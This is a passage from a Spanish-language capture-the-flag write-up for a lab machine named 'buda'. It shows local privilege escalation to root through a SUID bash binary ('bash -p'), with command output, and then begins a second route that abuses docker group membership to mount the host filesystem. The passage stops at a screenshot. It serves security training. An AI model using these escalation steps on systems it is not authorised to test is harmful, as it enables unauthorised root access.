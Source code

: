 ```bash
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/fusermount3
/usr/bin/chfn
/usr/bin/mount
/usr/bin/umount
/usr/bin/su
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/bash
/usr/bin/passwd
```
Curiosamente, ahí está la **bash** con **permisos SUID**.

Entonces, solo tenemos que ejecutar la **Bash** con privilegios:
```bash
-bash-5.1$ bash -p
bash-5.1# whoami
root
```
Y somos **Root**.

<br>

<h2 id="Docker">Abusando de Grupo Docker para Escalar Privilegios</h2>

Digamos que la **Bash** no tenía **permisos SUID**.

Veamos si nuestro usuario tiene privilegios:
```bash
-bash-5.1$ sudo -l
[sudo] password for yolanda: 
Sorry, user yolanda may not run sudo on buda.
```
No tiene ninguno.

Ahora veamos a qué grupos pertenece este usuario:
```bash
-bash-5.1$ id
uid=1002(yolanda) gid=1002(yolanda) groups=1002(yolanda),123(docker)
```
Estamos en el **grupo Docker**, entonces es posible que podamos escalar privilegios.

En la **guía de GTFOBins** encontraremos una forma de crear un contenedor de la raíz de la máquina, al que cualquier cambio que le hagamos, se verá reflejado en la máquina:
* <a href="https://gtfobins.github.io/gtfobins/docker/" target="_blank">GTFOBins: docker</a>

Pero necesitaremos tener internet en la máquina víctima o debemos pasarle la imagen de **Alpine**, para que pueda crear el contenedor de la máquina víctima.

Usaremos este comando:

<p align="center">
<img src="/assets/images/THL-writeup-buda/Captura9.png">
</p>
